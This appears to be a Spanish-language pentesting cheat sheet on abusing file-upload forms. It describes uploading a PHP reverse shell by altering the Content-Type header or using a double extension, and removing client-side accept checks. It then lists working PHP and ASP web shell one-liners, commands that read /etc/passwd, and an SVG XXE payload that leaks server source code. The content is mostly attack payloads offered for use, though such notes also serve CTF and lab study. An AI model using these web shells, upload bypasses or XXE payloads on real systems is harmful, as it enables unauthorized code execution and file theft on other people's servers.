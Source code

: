 ##### 🔍 Forma Normal
Si hay filtros de extensión:

1. **Burpsuite** → Configurar para interceptar tráfico
2. **Subir `reverse.php`** e interceptar la petición
3. Dos opciones:
   - **Modificar la cabecera:**
     ```http
     Content-Type: image/png
     ```
   - **Cambiar la extensión:**
     ```bash
     reverse.jpg.php
     ```
4. **Buscar la carpeta `upload`** para ejecutar la reverse shell

---

###### 📜 Creación de Archivo `.php`
```bash
sudo nano prueba.php
```
Dentro, incluir el código necesario:
```php
<?php
   system('comando');
?>
```

###### 🏴‍☠️ Forzar Subida de Archivos Restringidos
Si el formulario limita las extensiones permitidas:
```html
<input name="uploadFile" id="uploadFile" type="file" class="custom-file-input" id="inputGroupFile02" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```
**Solución:** Eliminar `onchange` y `accept` para permitir cualquier formato.

---

###### ⚡ Web Shells
```php
<?php file_get_contents('/etc/passwd'); ?>          # Lectura de archivos
<?php system('hostname'); ?>                        # Ejecución de comandos
<?php echo file_get_contents('/etc/hostname'); ?>   # Obtener hostname
<?php system($_REQUEST['cmd']); ?>                  # PHP Web Shell
<?php echo shell_exec($_GET[ "cmd" ]); ?>          # Webshell alternativa
<% eval request('cmd') %>                           # Web shell en ASP
```

---

###### 🎭 Código Oculto en `.SVG`

  🕵️‍♂️ Ver código de `upload.php`
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php"> ]>
  <svg>&xxe;</svg>
  ```
  